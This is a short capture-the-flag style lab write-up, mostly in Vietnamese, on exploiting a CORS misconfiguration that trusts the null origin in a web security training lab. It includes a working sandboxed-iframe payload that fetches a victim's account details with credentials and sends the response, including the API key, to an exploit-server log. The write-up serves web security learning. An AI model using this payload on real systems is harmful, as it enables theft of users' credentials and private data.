

# Lab: CORS vulnerability with trusted null origin

Sau khi đăng nhập, thêm header `Origin` cho `/accountDetails` thì thấy chỉ reflect khi `Origin: null` trong response qua `Access-Control-Allow-Origin`, ngoài ra còn có `Access-Control-Allow-Credentials: true`.



-> vì vậy cần dùng iframe bị sandbox để bypass CORS. Sửa body của exploit server thành:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
var req = new XMLHttpRequest();
req.onload = function() {
  location = 'https://exploit-0a69009f0356735480a36bde01e0009e.exploit-server.net/log?key='+this.responseText;
}
req.open('get', 'https://0a2d0044031373e9805a6c8b00a3009a.web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.send();
</script>
"></iframe> 
```

Deliver exploit to victim, truy cập log và sẽ lấy được API Key của victim.